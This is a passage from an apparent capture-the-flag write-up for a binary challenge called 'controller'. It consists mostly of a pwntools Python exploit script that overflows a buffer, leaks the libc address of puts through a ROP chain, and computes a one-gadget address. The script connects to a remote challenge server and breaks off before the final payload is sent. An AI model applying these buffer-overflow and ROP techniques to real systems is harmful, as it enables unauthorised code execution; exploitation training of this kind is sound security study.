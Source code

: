 As a result, the final step of the exploit is simply to fulfill the requirements to get to the condition where you can enter input again, just like last time, then enter a payload that consists of the required padding and the calculated location of the onegadget; in this case, the first onegadget worked without issue. The full python script is here:

```
from pwn import *

#Note: The ld_preload trick tends not to work on Kali. I have a bionic beaver VM I run these on if necessary.
#target = process('./controller', env={"LD_PRELOAD":"./libc.so.6"})

#pid = gdb.attach(target, "\nb *calculator+151\n set disassembly-flavor intel\ncontinue")

#Insert here
target = remote('206.189.121.131', 30388)

elf = ELF("controller")
libc = ELF("libc.so.6")

#Gadgets:

puts_got_plt = p64(0x601fb0)
puts_plt = p64(0x00400630)
pop_rdi = p64(0x00000000004011d3) # : pop rdi ; ret
main = p64(0x00401124)
onegadget_offset = 0x4f3d5

print(target.recvuntil(b'Insert the amount of 2 different types of recources:'))

#I can hit the error with -18 11 then 3
target.sendline(b'-18')
target.sendline(b'11')

print(target.recvuntil(b'4.'))
	
target.sendline(b'3')

print(target.recvuntil(b'Do you want to report the problem?'))

padding = b'a' * 40

payload = padding
payload += pop_rdi
payload += puts_got_plt
payload += puts_plt
payload += main

target.sendline(payload)
result = target.recvuntil(b'Control Room')
result_list = result.split(b'\n')
leak_unproc = result_list[2]
leak_unproc += b'\x00' * 2
puts_libc = u64(leak_unproc)

print(hex(puts_libc))
libc_base = puts_libc - libc.symbols['puts']
strlen_libc = libc_base + libc.symbols["strlen"]
onegadget = libc_base + onegadget_offset
#Verifying my offsets work. I compare the output here with the GOT entry for strlen in gdb.
print(hex(strlen_libc))

print(target.recvuntil(b'Insert the amount of 2 different types of recources:'))
target.sendline(b'-18')
```